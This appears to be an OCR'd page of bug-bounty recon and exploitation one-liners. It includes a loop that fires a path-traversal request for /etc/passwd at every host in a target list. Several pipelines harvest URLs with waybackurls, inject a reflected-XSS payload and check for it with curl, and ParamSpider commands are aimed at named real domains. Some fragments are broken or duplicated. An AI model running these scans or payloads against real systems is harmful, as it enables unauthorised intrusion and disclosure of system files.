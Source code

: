 

cat targets.txt| while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done










2 :
waybackurls testphp.vulnweb.com | tee testphp1.txt | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace '"><script>confirm(1)</script>' | tee  combinedfuzz.json  && cat combinedfuzz.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done




| grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a 












3 : Paramspider


$ python3 paramspider.py --domain orientalbirdimages.org --exclude woff,css,js,png,svg,php,jpg --output orientalbirdimages.txt



$ python3 paramspider.py --domain orientalbirdimages.org  --output orientalbirdimages.txt --level high

$ python3 paramspider.py --domain orientalbirdimages.org  --output orientalbirdimages.txt


$ python3 paramspider.py -d testphp.vulnweb.com | tee yy.json | qsreplace xs



$ python3 paramspider.py -d optimizely.com | tee yy.json --exclude woff,css,js,png,svg,php,jpg 


waybackurls target.com | grep "=" | qsreplace '"><script>confirm(1)</script>'| while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done 







4 : gf patterns


optimizely.com
